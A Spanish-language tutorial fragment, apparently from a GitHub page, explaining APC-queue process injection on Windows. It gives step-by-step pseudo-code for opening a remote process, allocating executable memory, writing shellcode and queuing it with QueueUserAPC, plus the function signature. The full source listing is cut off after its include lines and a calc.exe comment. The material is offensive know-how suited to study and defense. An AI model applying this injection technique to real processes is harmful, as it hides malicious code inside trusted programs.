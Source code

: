 ## Pseudo-codigo

```c++
// 1. se obtiene el proceso y el hilo remoto al que queremos invocar
hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS,..., RemoteProcessID)
hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, ThreadID)

// 2. Se reserva memoria para nuestro payload
pRemoteCode = VirtualAllocEx(hRemoteProcess,..., BufferSize,..., PAGE_EXECUTE_READWRITE)

// 3. Se escribe el shellcode en el buffer
WriteProcessMemory(hRemoteProcess, pRemoteCode, Shellcode, ShellcodeSize,...)

// 4. Se realiza una invocación a APC para el proceso y el hilo remotos
QueueUserAPC(pRemoteCode, hThread, NULL)

// 5. Se requiere que el hilo entre en un estado de alerta para consumir las llamadas APC

```

### QueueUserAPC()

```c++
DWORD QueueUserAPC(
    PAPCFUNC  pfnAPC,    // puntero a nuestro código
    HANDLE    hThread,   // hilo que invocará la función
    ULONG_PTR dwData     // puntero para el objeto con los parámetros de entrada de la función a ejecutar
);
```
Si la función termina de forma satisfactoria devuelve un valor diferente de 0

## Código fuente

El proceso en el que se va a realiza la inyección es notepad y esta se ejecutará en el momento en el que el usuario pincha sobre guardar el documento:

```c++
#include <winternl.h>
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

// calc.exe
```